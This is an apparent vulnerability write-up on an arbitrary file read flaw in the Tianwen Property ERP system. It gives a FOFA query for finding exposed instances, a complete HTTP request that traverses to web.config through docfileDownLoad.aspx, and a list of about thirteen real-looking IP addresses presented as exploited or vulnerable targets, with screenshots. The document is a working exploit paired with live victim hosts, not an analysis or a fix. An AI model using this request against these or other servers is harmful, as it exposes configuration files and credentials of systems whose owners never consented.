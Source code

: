 # There is an arbitrary file reading vulnerability in the Tianwen Property ERP system

[Tianwen Property ERP system does not perform authentication and sensitive character filtering on routing parameters, resulting in an arbitrary file reading vulnerability, which allows arbitrary reading of sensitive files on the server]



fofa：

```
body="天问物业ERP系统"
```



poc：

```
GET /HM/M_Main/WorkGeneral/docfileDownLoad.aspx?AdjunctFile=../web.config HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



Exp1：47.119.180.143

![image-20240314075831484](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075831484.png)

![image-20240314075410188](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075410188.png)



Exp2：43.254.2.16

![image-20240314075855819](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075855819.png)

![image-20240314075451155](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075451155.png)



Exp3：61.162.189.118

![image-20240314075916181](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075916181.png)

![image-20240314075527047](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075527047.png)





Exp4：47.96.103.30

![image-20240314075947043](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075947043.png)

![image-20240314075557019](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075557019.png)





Exp5：121.18.227.122:8088

![image-20240314080008676](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314080008676.png)

![image-20240314075624260](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314075624260.png)





Others：

```
222.177.5.162:808
222.134.242.221
39.101.176.131
111.62.81.67
211.157.184.196
219.134.62.158:9980
39.101.176.131:806
182.92.219.71
```



